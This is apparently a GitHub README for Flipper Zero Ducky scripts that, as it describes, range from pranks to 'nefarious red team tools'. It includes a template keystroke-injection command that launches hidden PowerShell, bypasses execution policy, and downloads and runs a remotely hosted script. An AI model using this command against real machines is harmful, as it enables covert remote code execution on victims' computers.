 # Downloadable-Ducky-Scripts-For-FlipperZero

**These scripts download and run from this repo -**

https://github.com/beigeworm/assets/tree/main/Scripts

They use this cmd > `STRING powershell -NoP -Ep Bypass -W H -C $variable='USER_INPUT_HERE'; irm HOSTED_SCRIPT_URL_HERE | iex`

These scripts range from harmless pranks to nefarious red team tools. For educational purposes only! 

**If you want to learn more about the code, or modify them, most of these scripts are in powershell format here**

https://github.com/beigeworm/Powershell-Tools-and-Toys

# Pre-Deployment Setup
Most of these scripts will require some setup before they will work.

#  If you like my work please leave a star. ⭐


